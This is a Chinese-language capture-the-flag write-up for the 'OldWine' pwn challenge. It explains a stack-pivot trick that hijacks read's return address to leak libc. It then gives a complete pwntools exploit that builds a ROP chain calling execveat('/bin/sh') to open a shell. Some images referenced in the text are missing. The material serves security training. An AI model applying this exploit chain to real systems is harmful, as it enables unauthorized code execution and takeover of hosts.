



# OldWine

> 感谢 *熙熙* 师傅提供的思路！

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|off   |
|NX    |on    |
|PIE   |on    |
|strip |no    |
|libc  |2.39-0ubuntu8.4|

## seccomp rules



## 解题思路

程序禁止了one gadget，可以调整rbp，也可以在栈上向后写。类似的思路其实当时西湖论剑的 **heaven**
就出现过，然而一下没想到，没做出来，还在那里找各种gadget，这下吃一堑吃一堑了。

原本的栈大小是0x10，加上`[rbp]`和返回地址总共0x20字节，然后索引从`rbp - 0x10`开始算。
原始栈布局如下所示：



如果将`[rbp]`调整为`rbp + 0x10`，那么栈布局就会变为：



为什么要这么做？反汇编`read`，如果成功读取，那么有效的指令只有：

```x86asm
cmp byte ptr [rip + __libc_single_threaded], 0
je  read+32
xor eax, eax
syscall
cmp rax, -0x1000
ja  read+104
ret
```

因此在`call read@plt`时，rsp只扩展了8字节，也就是返回地址。查看上面的栈布局，
不难发现，当`call`时，rsp刚好等于`rbp - 0x10`，也就是说，我们可以控制参数，
向`read`函数的返回地址写入数据。将`idx`和`size`分别控制为0和一个比较大的值，
由于rsi和rdx没有变化，可以将返回地址劫持到`main`函数中`mov edi, 1; call write@plt;`的地方，
这样就可以泄露出栈上的数据，找到libc的值。

后面就简单了，打传统rop，走`execveat`就可以。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './OldWine'

def payload(lo: int):
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t, 'b read if $rdx == 0x100')
    else:
        t = remote('', 9999)

    def pivot():
        t.sendlineafter(b'pivoting', b'2')

    def arbwrite(idx: int, size: int, fill: bytes):
        t.sendlineafter(b'pivoting', b'1')
        t.sendlineafter(b'size', str(size).encode())
        t.sendlineafter(b'index: ', str(idx).encode())
        t.send(fill)

    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.39-0ubuntu8.4_amd64/libc.so.6')

    stklo = int(input('Lowest byte: '), 0) if lo & 2 else 0
    arbwrite(0x10, 2, pack(stklo, 'all'))
    pivot()
    arbwrite(0, 0x100, p8(0x45)) # <main+0x5a> mov edi, 1; call write@plt;
    stkbuf = t.recv(0x100)
    if b'pivoting' in stkbuf:
        t.close()
        return 0
    t.sendline(b'512') # size
    t.sendlineafter(b'index: ', b'0')

    libc_base = u64(stkbuf[0xa8:0xb0]) - libc.symbols['__libc_start_main'] - 139
    success(GOLD_TEXT(f'Leak libc_base: {libc_base:#x}'))
    libc.address = libc_base

    gadgets = ROP(libc)
    rdx = libc_base + 0xb5db0 # xor edx, edx; mov eax, edx; ret
    r8  = libc_base + 0x9874e # pop r8; mov qword ptr fs:[0x300], rdi; ret
    exec_rop = flat(gadgets.rdi.address, (1 << 64) - 100, # AT_FDCWD
                    gadgets.rsi.address, next(libc.search(b'/bin/sh')),
                    rdx, gadgets.rcx.address, 0, r8, 0,
                    libc.symbols['execveat'])
    t.send(exec_rop)

    t.clean()
    t.interactive()
    t.close()
    return 1
```
